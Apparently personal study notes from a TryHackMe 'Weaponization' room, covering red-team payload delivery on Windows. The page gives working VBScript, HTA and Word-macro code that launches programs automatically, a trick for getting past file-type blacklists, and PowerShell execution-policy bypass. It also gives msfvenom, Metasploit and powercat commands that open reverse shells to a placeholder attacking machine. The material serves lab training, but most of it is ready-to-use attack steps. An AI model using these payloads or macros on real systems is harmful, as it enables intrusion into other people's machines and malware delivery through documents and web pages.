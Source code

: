 # Weaponization

Weaponizatiion is when red teamers use their own crafted tools to exploit a target

## Windows Scripting Host (WSH)

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.
It uses VBScript

### Showing a message box

- Windows message box
  ```
  Dim message
  message = "Hello"
  MsgBox message
  ```
- run it in cmd: `wscript hello.vbs`

### Use it to run exe files

- Run an exe file with VBScript
  ```
  Set shell = WScript.CreateObject("Wscript.Shell")
  shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
  ```
- Execute it with wscript or cscript in cmd: `wscript c:\Users\thm\Desktop\calc.vbs` or `cscript.exe c:\Users\thm\Desktop\calc.vbs`
- In case of blacklist, possible to rename in txt and still run it: `wscript /e:VBScript c:\Users\thm\Desktop\payload.txt` 

## HTML Application (HTA)

### Using and `ActiveXObject to execute cmd.exe

```
<html>
<body>
<script>
        var c= 'cmd.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

- serve the payload `python3 -m http.server 8000`
- Visit the page from the target machine `http://IP-ATTACK-MACHINE:8000/payload.hta` and run it

### Reverse shell

- Create a reverse shell with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP-ATTACK-MACHINE LPORT=443 -f hta-psh -o thm.hta`
- Launch a listener: `nc -lvp 443`
- The reverse shell is launched when the link is visited from the target machine
- Possible to generate and serve HTA with Metasploit framework `use exploit/windows/misc/hta_server`and we need to set LHOST, LPORT, SRVHOST, Payload we can use this payload `windows/meterpreter/reverse_tcp`
- When the link is visited in the target we get a meterpreter shell

## Visual Basic for Application (VBA)

- We need to use Word
- We open Visual Basic Editor by selecting `view → macros`
- We can give a name to our macro and click create
- We then can make another message box
```
Sub MACRONAME()
  MsgBox ("Message in a box")
End Sub
```
- We run the macro with F5
- To execute it automatically we can use after the document is open we need to use AutoOpen and Document_open
```
Sub Document_Open()
  MACRONAME
End Sub

Sub AutoOpen()
  MACRONAME
End Sub

Sub MACRONAME()
  MsgBox ("Message in a box")
End Sub
```
- we save the document in docm or doc

### Execute a bin

```
Sub ExecBin()
        Dim payload As String
        payload = "calc.exe"
        CreateObject("Wscript.Shell").Run payload,0
End Sub
```

### Use msfvenom for VBA

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKING-MACHINE-IP LPORT=443 -f vba
```

- We just need to copy the output in the file
- We set the listener with msfconsole `use exploit/multi/handler` `set payload windows/meterpreter/reverse_tcp` we set also LHOST and LPORT
- When the doc is open in the target machine we get a shell

## PowerShell

- Write something with powershell we open a text editor and put this inside: `Write-Output "something"`
- We save the file with .PS1 extension
- We can execute it from the cmd: `powershell -File thm.ps1`

### Execution policy

- See if we are restricted: `Get-ExecutionPolicy`
- Change it: `Set-ExecutionPolicy -Scope CurrentUser RemoteSigned`
- we can also bypassing when executing the script: `powershell -ex bypass -File script.ps1`

### Getting a reverse shell

- We can use [powercat](https://github.com/besimorhino/powercat)
- We set up a listener `nc -lvp 443`
- We launch powercat `powershell -c "powercat -c ATTACKING-MACHINE-IPP -p 443 -e cmd"`
- We should get a shell
 
## Resources

- [TryHackMe - Weaponization](https://tryhackme.com/room/weaponization)
- [Red Teaming Toolkit - infosecn1nja](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development)
